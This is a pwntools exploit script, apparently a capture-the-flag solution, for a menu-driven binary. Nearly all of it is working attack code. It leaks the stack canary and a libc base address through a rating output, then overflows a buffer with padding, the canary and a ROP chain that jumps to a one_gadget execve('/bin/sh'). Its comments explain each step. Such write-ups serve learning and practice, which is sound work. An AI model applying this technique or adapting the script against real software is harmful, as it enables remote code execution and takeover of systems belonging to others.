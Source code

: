 ```py
def vfs(size, data=b"A"):
    global io
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"> ", str(size).encode())
    io.sendlineafter(b"> ", data)


def stats():
    global io
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"> ", b"n")
    io.sendlineafter(b">", b"AAAA")
    io.recvuntil(b"rating of ")
    return int(io.recvuntil(" ")[:-1])


def main():
    global io
    io = conn(level="debug")

    ## good luck pwning :)
    ## Bruteforce the possible leaks
    ## for i in range(2, 0x200):
    ##     vfs(i)
    ##     print(i, hex(stats()))

    ## Leak canary
    vfs(288)
    canary = stats()
    log.info(f"canary: {hex(canary)}")

    ## Leak libc
    vfs(144)
    libc.address = stats() - 0x216600
    log.success(f"libc @ {hex(libc.address)}")

    ## Get a shell
    ## To use the one_gadget found, we need to set a couple of registers first

    ## 0xebcf8 execve("/bin/sh", rsi, rdx)
    ## constraints:
    ##   address rbp-0x78 is writable
    ##   [rsi] == NULL || rsi == NULL
    ##   [rdx] == NULL || rdx == NULL
    rop = ROP(libc)
    rop.raw(libc.address + 0x00000000000DA97D)  ## pop rsi; ret;
    rop.raw(0)
    rop.raw(libc.address + 0x000000000011F497)  ## pop rdx; pop r12; ret
    rop.raw(0)
    rop.raw(0)
    rop.raw(libc.address + 0xEBCF8)

    payload = flat(
        b"A" * 16,  ## padding
        canary,  ## canary
        exe.bss(100),  ## one_gadget also requires a writeable rbp - 0x78
        rop.chain(),  ## rop chain
    )
    vfs(10, payload)

    io.interactive()


```